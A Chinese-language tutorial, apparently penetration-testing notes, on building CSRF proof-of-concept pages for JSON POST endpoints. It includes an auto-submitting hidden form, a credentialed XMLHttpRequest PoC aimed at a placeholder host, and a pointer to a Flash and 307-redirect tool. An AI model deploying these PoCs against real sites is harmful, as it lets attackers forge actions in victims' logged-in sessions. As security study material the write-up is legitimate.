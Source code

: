 ## JSON格式下的CSRF漏洞利用
### 介绍
GET型的CSRF一般比较简单，这里介绍POST型的CSRF漏洞的POC构造。</br>
但是在POST类型的接口或者URL中，会出现一种JSON格式的入参，构造POC有一些注意点，这里主要对此做一些记录。</br>

### 漏洞利用 
#### （一）常规POC
图片（1）
首先使用常规POC，可使用BurpSuite的“Engagement Tools-Generate CSRF PoC”功能生成，如下：</br>
```html
<html>
<body>
	<script>history.pushState('','','/')</script>
	
	<form name="zzz" action="https://aaa.com" method="POST" enctype="text/plain">
		<input type="hidden" name='json入参' value='json入参产生“=”，此处设法闭合'/>
	</form>
	
	<script type="text/javascript">
	document.zzz.submit();
	</script>
</body>
</html>
```
使用上述常规POC会发现，响应报415，“Unsupported Media Type”，意为不支持的媒体类型;</br>
这是由于HTML文件中“enctype="text/plain"”造成的。</br>
抓包可以看到JSON入参后面跟了一个“=”符号。</br>
图片（2）
这种情况下，这种情况下服务端的JSON解析器可能会拒绝这段JSON，因为它不符合JSON的数据格式。 这时候我们可以给value赋值从而对=后的数据进行补全，使其构造成一个完整的json格式，可以避免解析器报错。具体的构造由name和value两个入参来进行，将"="封进JSON的入参中去，效果如下：</br>
图片（4）

#### （二）通过XHR提交
上述（一）最后如果还是响应415状态码，那么可能就是服务端校验了Content-Type类型，该请求字段只能为application/json。如此，可通过XHR提交入参，如下所述。</br>
在通过HTML form提交生成的POST请求中，请求头的Content-Type由<form>元素上的enctype属性指定;现在enctype只有如下三种属性值：</br>
图片（3）
其中text/plain可以满足JSON入参类型，但是其在用户请求时，相应请求体字段自动转换为了application/x-www-form-urlencoded。如下：</br>
图片（5）
当跨域影响用户数据HTTP请求(如用XMLHttpRequest发送post)时，浏览器会发送预检请求(OPTIONS请求)给服务端征求支持的请求方法，然后根据服务端响应允许才发送真正的请求。 然而如果服务端对Content-Type进行校验，则不会响应这个OPTIONS请求，从而利用失败。</br>

所以在此场景下，这一思路是行不通的。但是更多的情况下服务端可能不会校验Content-Type，或者不会严格校验Content-Type是否为application/json，所以很多情况下这是可用的。</br>
新的POC如下：</br>
```html
<html>
<body>
	<script>
		function submitRequest(){
			var xhr = new XMLHttpRequest();
			xhr.open("POST","https://aaa.com",true);
			xhr.setRequestHeader("Accept","*/*");
			xhr.setRequestHeader("Accept-Language","zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3");
			xhr.setRequestHeader("Content-Type","application/json");
			xhr.withCredentials = true;
			xhr.send(stringify(json入参));
		}
	</script>

	<form action="#">
		<input type="button" value="Submit Request" onclick="submitRequest();"/>
	</form>
</body>
</html>
```

#### （三）借助flash，利用307跳转实现CSRF
1.制作一个Flash文件</br>
2.制作一个跨域XML文件</br>
3.制作一个具有307状态码的php文件</br>
已经有大牛造好轮子了，参考：https://github.com/sp1d3r/swf_json_csrf</br>
